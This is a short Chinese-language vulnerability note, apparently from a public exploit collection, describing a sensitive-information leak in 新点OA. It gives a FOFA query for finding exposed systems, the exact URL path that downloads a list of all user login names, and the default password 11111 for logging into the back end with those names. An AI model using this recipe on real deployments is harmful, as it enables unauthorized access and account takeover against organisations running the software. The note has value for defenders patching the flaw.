 # 新点OA-敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

> [!NOTE]
>
> 新点OA

## FOFA

> [!NOTE]
>
> app="新点OA"

## 漏洞复现

构造的Url为

```
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![](新点OA-敏感信息泄露漏洞.assets/1627363530969704.jpg)

通过获取的登录名登陆后台(默认密码11111)